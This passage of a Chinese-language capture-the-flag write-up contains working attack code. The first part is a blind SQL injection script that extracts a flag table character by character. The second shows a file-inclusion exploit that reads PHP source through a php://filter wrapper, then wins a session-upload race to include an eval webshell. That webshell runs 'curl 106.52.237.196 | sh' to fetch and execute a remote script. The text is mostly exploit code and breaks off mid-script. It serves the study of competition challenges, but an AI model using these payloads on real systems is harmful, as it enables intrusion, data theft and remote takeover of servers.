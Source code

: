 ``` python
    aid = 0

    clear_list()
    add_ads('1')
    r = requests.post('http://120.79.141.85:47930/index.php', cookies=cookies)
    aid = int(re.search(RE, r.text).group(1))
    print(f'Initial ID: {aid}')

    # # 可爆破出列数
    # for i in range(1, 64):
    #     s = ','.join(["''"] * i)
    #     r = check_sql(f"(SELECT (SELECT {s})<(SELECT * FROM flag LIMIT 1))=true")
    #     print(i, r)

    content = ''
    for i in range(len(content) + 1, 128):
        s = CharBinarySearch()
        while not s.is_done():
            # r = check_sql(f"(SELECT HEX(SUBSTR(database(),{i},1))>=HEX({s.middle()}))")

            p = content + chr(s.middle())
            p = hex(int.from_bytes(p.encode(), 'big'))
            r = check_sql(f"(SELECT (SELECT * FROM flag) >= (SELECT 1, {p})) = 1")
            # r = check_sql(f"((SELECT HEX(SUBSTR(name,{i},1)) FROM users LIMIT 1 OFFSET 0)>=HEX({s.middle()}))")

            print(f'{i} {s.middle()} => {r}')
            s.update(r)
        content += chr(s.l)
        print(content)

if __name__ == '__main__':
    main()
```

### Web | in (138pt)
随便点点，发现http://119.23.247.96:45837/action.php?file=2.txt 可以读文件，尝试包含action.php自身，发现卡顿且无返回，说明包含方式很可能是include  
先看一眼服务器是apache，不能包含日志拿shell，于是考虑看看PHP的源码  
伪协议读到源码http://119.23.247.96:45837/action.php?file=php://filter/convert.base64-encode/resource=action.php  
开头看到session_start()大概率是session包含，偷懒直接用session竞争的板子拿shell
```python
import io
import requests
import threading

sessid = 'TGAO'
data = {"cmd": "system('curl 106.52.237.196 | sh');"}


def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post('http://119.23.247.96:45837/action.php',
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                            files={'file': ('tgao.txt', f)}, cookies={'PHPSESSID': sessid})


def read(session):
    while True:
        resp = session.post('http://119.23.247.96:45837/action.php?file=/tmp/sess_' + sessid, data=data)
```